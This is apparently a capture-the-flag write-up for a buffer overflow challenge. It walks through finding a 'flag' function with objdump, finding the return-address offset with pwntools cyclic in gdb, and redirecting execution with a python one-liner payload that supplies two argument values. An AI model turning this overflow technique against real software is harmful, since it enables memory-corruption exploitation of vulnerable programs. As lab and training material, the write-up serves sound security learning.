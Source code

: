 Get the address of flag function with objdump.

```
  objdump -D vuln|grep flag

080485e6 <flag>:
  ...
```


Run vuln with gdb

Input a long string to cause a sigmentation fault

```
python -c 'import pwn;print(pwn.cyclic(256))'|gdb ./vuln --eval-command r
...
Please enter your string: 
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaac

Program received signal SIGSEGV, Segmentation fault.
0x62616177 in ?? ()
...
```

Find out cyclic in with python pwn module

```
>>> pwn.cyclic_find(pwn.p32(0x62616177))
>>> 188
```

Accroding to 
[return to libc tutorial](https://www.exploit-db.com/docs/english/28553-linux-classic-return-to-libc-&-return-to-libc-chaining-tutorial.pdf)


Let's pass the arguments to vuln

```
python -c "import pwn;print('A'*188+pwn.p32(0x080485e6)+'A'*4+pwn.p32(0xdeadbeef)+pwn.p32(0xc0ded00d))"|./vuln
```

One flag is in the segmentation fault error.
